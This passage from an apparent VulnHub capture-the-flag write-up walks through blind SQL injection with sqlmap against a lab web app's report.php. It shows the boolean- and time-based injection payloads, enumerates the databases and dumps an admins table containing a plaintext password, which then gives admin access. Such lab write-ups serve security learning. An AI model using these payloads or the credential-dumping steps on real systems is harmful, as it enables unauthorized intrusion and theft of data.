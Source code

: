 ```
sqlmap identified the following injection point(s) with a total of 142 HTTP(s) requests:
---
Parameter: issue (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: issue=asdf'||(SELECT 'oYQt' FROM DUAL WHERE 9026=9026 AND 7350=7350)||'

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: issue=asdf'||(SELECT 'RdBC' FROM DUAL WHERE 9919=9919 AND SLEEP(5))||'
---
```

So we have found 2 time based and one boolean based blind injection. We will use the vulnerability in `report.php` to dump the database as the boolean based blind attack is a lot faster then the time based attack.

So let's enumerate the available DBs using the `--dbs` parameter:
```
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] vulnhub
```

Now let's look at the `vulnhub` database with `-D vulnhub --tables`:
```
Database: vulnhub
[3 tables]
+----------------------------------------------+
| admins                                       |
| guestbook                                    |
| issues                                       |
+----------------------------------------------+
```

Then dump the admins table with `-D vulnhub -T admins --dump`
```
Database: vulnhub
Table: admins
[1 entry]
+----+--------------------------------------+--------+
| id | pass                                 | user   |
+----+--------------------------------------+--------+
| 1  | 1b37y0uc4n76u3557h15p455w0rd,5uck3rz | rasta  |
+----+--------------------------------------+--------+
```

Yay! So we found the clear text password of `rasta` (even if it looks like md5 ;D ).

Using the new login we can login on the web application and are presented with an admin application for the IRC server.

![Admin Area](/img/vulnhub_dc416_dick_dastardly/admin_area.png)
